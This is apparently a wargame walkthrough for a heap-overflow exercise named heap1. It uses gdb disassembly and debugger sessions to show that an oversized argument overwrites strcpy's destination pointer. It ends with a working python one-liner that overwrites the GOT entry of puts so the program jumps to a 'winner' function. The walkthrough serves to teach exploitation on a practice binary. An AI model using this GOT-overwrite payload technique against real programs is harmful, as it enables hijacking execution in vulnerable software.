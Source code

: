 

```
    8048565:   e8 06 fe ff ff          call   8048370 <strcpy@plt>
    804856a:   83 c4 10                add    esp,0x10
    804856d:   8b 43 04                mov    eax,DWORD PTR [ebx+0x4]
    8048570:   83 c0 08                add    eax,0x8
    8048573:   8b 10                   mov    edx,DWORD PTR [eax]
    8048575:   8b 45 f0                mov    eax,DWORD PTR [ebp-0x10]
    8048578:   8b 40 04                mov    eax,DWORD PTR [eax+0x4]
    804857b:   83 ec 08                sub    esp,0x8
    804857e:   52                      push   edx
    804857f:   50                      push   eax
    8048580:   e8 eb fd ff ff          call   8048370 <strcpy@plt>
```

in gdb:
```
    gdb-peda$ b *0x8048565
    Breakpoint 1 at 0x8048565
    gdb-peda$ b *0x8048580
    Breakpoint 2 at 0x8048580
    gdb-peda$ r aaaaa bbbbb
```

now let's take a look see



```
       0x8048560 <main+126>:	sub    esp,0x8
       0x8048563 <main+129>:	push   edx
       0x8048564 <main+130>:	push   eax
    => 0x8048565 <main+131>:	call   0x8048370 <strcpy@plt>
       0x804856a <main+136>:	add    esp,0x10
       0x804856d <main+139>:	mov    eax,DWORD PTR [ebx+0x4]
       0x8048570 <main+142>:	add    eax,0x8
       0x8048573 <main+145>:	mov    edx,DWORD PTR [eax]
    Guessed arguments:
    arg[0]: 0x804a018 --> 0x0
    arg[1]: 0xffffdcee ("aaaa")
```
so now we can continue
```
    gdb-peda$ c
```
and have another look see
```
       0x804857b <main+153>:	sub    esp,0x8
       0x804857e <main+156>:	push   edx
       0x804857f <main+157>:	push   eax
    => 0x8048580 <main+158>:	call   0x8048370 <strcpy@plt>
       0x8048585 <main+163>:	add    esp,0x10
       0x8048588 <main+166>:	sub    esp,0xc
       0x804858b <main+169>:	push   0x804864b
       0x8048590 <main+174>:	call   0x8048390 <puts@plt>
    Guessed arguments:
    arg[0]: 0x804a038 --> 0x0
    arg[1]: 0xffffdcf3 ("bbbb")
```

now let's see if we can break it!

```
gdb-peda$ r aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa bbbbb
```


```
   0x8048560 <main+126>:	sub    esp,0x8
   0x8048563 <main+129>:	push   edx
   0x8048564 <main+130>:	push   eax
=> 0x8048565 <main+131>:	call   0x8048370 <strcpy@plt>
   0x804856a <main+136>:	add    esp,0x10
   0x804856d <main+139>:	mov    eax,DWORD PTR [ebx+0x4]
   0x8048570 <main+142>:	add    eax,0x8
   0x8048573 <main+145>:	mov    edx,DWORD PTR [eax]
Guessed arguments:
arg[0]: 0x804a018 --> 0x0
arg[1]: 0xffffdcb6 ('a' <repeats 57 times>)
```
nothing interesting yet...

and so we continue

```
    gdb-peda$ c
```
and take a look see
```
   0x804857b <main+153>:	sub    esp,0x8
   0x804857e <main+156>:	push   edx
   0x804857f <main+157>:	push   eax
=> 0x8048580 <main+158>:	call   0x8048370 <strcpy@plt>
   0x8048585 <main+163>:	add    esp,0x10
   0x8048588 <main+166>:	sub    esp,0xc
   0x804858b <main+169>:	push   0x804864b
   0x8048590 <main+174>:	call   0x8048390 <puts@plt>
Guessed arguments:
arg[0]: 0x61616161 ('aaaa')
arg[1]: 0xffffdcf0 ("bbbbbbbbb")
```

Ureka!! We are overwriting the destination address being passed to the `strcpy` function. So we have the ability to perform a .got overwrite. Our plan is to first overwrite the destination address passed to `strcpy` with the `.got` address of `printf` and then use `strcpy` to overwrite that address with the address of the `winner` function.


Let's take another look at the assembly

```
8048580:   e8 eb fd ff ff          call   8048370 <strcpy@plt>
 8048585:   83 c4 10                add    esp,0x10
 8048588:   83 ec 0c                sub    esp,0xc
 804858b:   68 4b 86 04 08          push   0x804864b
 8048590:   e8 fb fd ff ff          call   8048390 <puts@plt>
```

Even though `printf` is called in the C code, `puts` is being called in the assembly. So lets take a closer look at the .plt definition of `puts`.


```
 08048390 <puts@plt>:
8048390:   ff 25 a0 98 04 08       jmp    DWORD PTR ds:0x80498a0
8048396:   68 20 00 00 00          push   0x20
804839b:   e9 a0 ff ff ff          jmp    8048340 <_init+0x2c>
```

so `0x80498a0` is the .got address of puts. So all we need to do is overwrite that address with the address of `winner`

```
080484bb <winner>:
80484bb:   55                      push   ebp
80484bc:   89 e5                   mov    ebp,esp
....
```


```
[kablaa@superhacker9000 heap1]$ ./heap1 $(python2.7 -c 'print "a"*20 + "\xa0\x98\x04\x08" + " " + "\xbb\x84\x04\x08"')
and we have a winner @ 1453579246
[kablaa@superhacker9000 heap1]$

```
